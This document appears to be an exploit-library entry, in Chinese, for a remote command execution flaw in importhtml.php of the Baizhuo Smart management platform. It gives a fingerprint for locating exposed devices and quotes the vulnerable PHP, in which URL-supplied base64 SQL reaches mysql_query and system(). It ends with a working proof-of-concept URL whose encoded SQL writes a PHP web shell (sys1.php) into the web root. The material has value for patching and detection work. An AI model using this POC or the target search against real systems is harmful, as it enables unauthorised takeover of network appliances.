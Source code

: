 # 百卓 Smart importhtml.php 远程命令执行漏洞

## 漏洞描述

百卓 importhtml.php文件sql语句无过滤，通过Sql语句可远程命令执行

## 漏洞影响

<a-checkbox checked>百卓 Smart</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Smart管理平台"</a-checkbox></br>

## 漏洞复现

登录页面



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210718204640874.png)



出现漏洞的文件 `importhtml.php`

```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```



跟踪exportHtmlMail函数



```php
function exportHtmlMail($filename,$sql){

	Header( "Expires: 0" );

	Header( "Pragma: public" );

	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );

	Header( "Cache-Control: public");

	Header( "Content-Type: application/octet-stream" );

	header("Accept-Ranges: bytes");

	header("Content-Disposition: attachment; filename=$filename.html");

	echo "<html>\n";

	echo "<head><title>报表</title></head>\n";

	echo "<body>\n";

	$conn = connOther();

	$result = mysql_query($sql,$conn);

	while ($data= mysql_fetch_array($result)){

		$post_content = "";

		if($data['mail_file_path'] == "(null)"){

			$post_content = "<font color=red>内容审计未启用</font>";

		}

		else{



			$post_filename=$data['mail_file_path'];

			$ifother = "";

			$ifother = ifExistOther($post_filename);

			if($ifother!=""){

				$post_filename = $ifother;

			}

			$str = "/usr/bin/cap2con $post_filename pop";

			system($str,$returnvalue);

			$post_filename=str_replace(".cap",".eml",$post_filename);

			$post_content = file_get_contents($post_filename);

			$rec=new mime_decode;

			$post_content=$rec->decode_mime_string($post_content);

			//...

		}

	}

}
```



这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控



```php
$str = "/usr/bin/cap2con $post_filename pop";
```



验证POC



```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```



访问成功后会触发下载日志文件，再访问 sys1.php



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210718204705207.png)

